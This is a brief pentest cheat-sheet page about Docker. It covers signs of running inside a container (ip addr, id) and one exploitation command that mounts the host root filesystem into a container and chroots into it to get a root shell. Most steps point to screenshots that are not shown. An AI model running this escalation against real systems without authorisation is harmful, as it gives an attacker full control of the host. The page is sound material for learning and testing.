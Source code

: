 # Docker

### Checking for Docker Containers&#x20;

#### 1>Checking for internal network may give signs of a docker container

`$ ip addr`

#### `2>ID command might tell`

![](<../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

### `Exploitation`

#### `Check for the images`

![](<../.gitbook/assets/image (6) (1) (1) (1) (1).png>)

#### `Replace the image`

`docker run -v /:/mnt --rm -it privesc chroot /mnt sh`

![](<../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

